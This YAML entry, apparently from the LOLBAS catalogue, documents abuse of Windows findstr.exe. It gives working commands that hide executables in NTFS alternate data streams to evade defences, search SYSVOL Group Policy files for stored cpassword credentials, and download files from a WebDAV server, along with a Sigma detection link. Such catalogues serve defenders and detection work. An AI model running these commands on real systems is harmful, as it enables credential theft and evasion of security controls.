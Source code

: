 ```yaml
---
Name: Findstr.exe
Description: Write to ADS, discover, or download files with Findstr.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: findstr /V /L W3AllLov3LolBas c:\ADS\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /V /L W3AllLov3LolBas \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream from a webdav server to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /S /I cpassword \\sysvol\policies\*.xml
    Description: Search for stored password in Group Policy files stored on SYSVOL.
    Usecase: Find credentials stored in cpassword attrbute
    Category: Credentials
    Privileges: User
    MitreID: T1552.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /V /L W3AllLov3LolBas \\webdavserver\folder\file.exe > c:\ADS\file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is downloaded to the target file.
    Usecase: Download/Copy file from webdav server
    Category: Download
    Privileges: User
    MitreID: T1185
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\findstr.exe
  - Path: C:\Windows\SysWOW64\findstr.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_findstr.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

